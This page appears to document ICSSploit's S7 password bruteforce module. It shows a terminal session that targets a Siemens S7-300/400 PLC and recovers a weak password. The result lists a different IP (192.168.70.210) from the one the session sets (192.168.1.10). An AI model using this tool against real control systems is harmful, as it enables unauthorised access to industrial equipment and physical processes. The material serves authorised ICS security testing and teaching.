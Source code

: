 # S7 Bruteforece

# Use S7 bruteforece module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
    Version  : 1.0
    
    Exploits: 2 Scanners: 0 Creds: 14
    
    ICS Exploits:
        PLC: 2          ICS Switch: 0
        Software: 0
    
    isf > search bruteforce
    creds/ftp_bruteforce
    creds/http_basic_bruteforce
    creds/http_digest_bruteforce
    creds/http_form_bruteforce
    creds/s7_bruteforce
    creds/snmp_bruteforce
    creds/ssh_bruteforce
    creds/telnet_bruteforce
    isf > use creds/s7_bruteforce

    
# set options
    isf (S7 300/400 PLC Password Bruteforce) > show options

    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name                Current settings                                                                                Description
       ----                ----------------                                                                                -----------
       slot                2                                                                                               CPU slot number.
       threads             3                                                                                               Number of threads
       stop_on_success     yes                                                                                             Stop on first valid community string
       verbose             0                                                                                               Verbose scapy output. 1: display, 0: hide
       password            file:///root/Desktop/temp/isf/icssploit/wordlists/passwords.txt                                 password string or file with community strings (file://)
       rack                0                                                                                               CPU rack number.

    isf (S7 300/400 PLC Password Bruteforce) > set target 192.168.1.10
    [+] {'target': '192.168.1.10'}
    # set target slot
    isf (S7 300/400 PLC Password Bruteforce) > set slot 3
    [+] {'slot': '3'}

# run module
    isf (S7 300/400 PLC Password Bruteforce) > run
    [*] Running module...
    [*] Elapsed time:  11.8677530289 seconds
    [+] Credentials found!
    
       Target             Port     password
       ------             ----     --------
       192.168.70.210     102      password
    isf (S7 300/400 PLC Password Bruteforce) >
